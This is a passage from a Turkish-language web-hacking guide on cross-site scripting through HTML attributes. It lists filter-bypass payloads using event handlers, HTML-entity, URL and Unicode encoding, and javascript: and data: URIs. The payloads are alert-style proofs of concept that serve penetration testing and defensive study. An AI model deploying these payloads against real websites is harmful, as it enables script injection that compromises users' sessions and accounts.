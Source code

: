 **Öznitelikten kaçamazsanız bile** (`"` kodlanıyor veya siliniyor), **değerinizin hangi öznitelikte** yansıtıldığına bağlı olarak **değerin tamamını mı yoksa sadece bir kısmını mı kontrol ediyorsanız** bunu kötüye kullanabilirsiniz. **Örneğin**, `onclick=` gibi bir olayı kontrol ediyorsanız, tıklandığında rastgele kod çalıştırmasını sağlayabilirsiniz.\
Başka ilginç bir **örnek**, `href` özniteliğidir; burada rastgele kod çalıştırmak için `javascript:` protokolünü kullanabilirsiniz: **`href="javascript:alert(1)"`**

**HTML kodlaması/URL kodlaması kullanarak olay içindeki atlatma**

HTML etiket özniteliklerinin değerindeki **HTML kodlanmış karakterler** **çalışma zamanında çözülür**. Bu nedenle aşağıdaki gibi bir şey geçerli olacaktır (yükleme kalın yazılmıştır): `<a id="author" href="http://none" onclick="var tracker='http://foo?`**`&apos;-alert(1)-&apos;`**`';">Geri Dön </a>`

**Her türlü HTML kodlaması geçerlidir**:
```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>
<a href="&#106;avascript:alert(2)">a</a>
<a href="jav&#x61script:alert(3)">a</a>
```
**URL kodlamasının da çalışacağını unutmayın:**
```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```
**Unicode kodlaması kullanarak iç olayları atlatma**
```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```
### Özel Protokoller İçinde attribute

Burada bazı yerlerde **`javascript:`** veya **`data:`** protokollerini **rastgele JS kodu çalıştırmak** için kullanabilirsiniz. Bazıları kullanıcı etkileşimi gerektirecek, bazıları ise gerektirmeyecek.
```javascript
javascript:alert(1)
JavaSCript:alert(1)
javascript:%61%6c%65%72%74%28%31%29 //URL encode
javascript&colon;alert(1)
javascript&#x003A;alert(1)
javascript&#58;alert(1)
&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3aalert(1)
java        //Note the new line
script:alert(1)

data:text/html,<script>alert(1)</script>
DaTa:text/html,<script>alert(1)</script>
data:text/html;charset=iso-8859-7,%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
data:text/html;charset=UTF-8,<script>alert(1)</script>
data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=
data:text/html;charset=thing;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg
```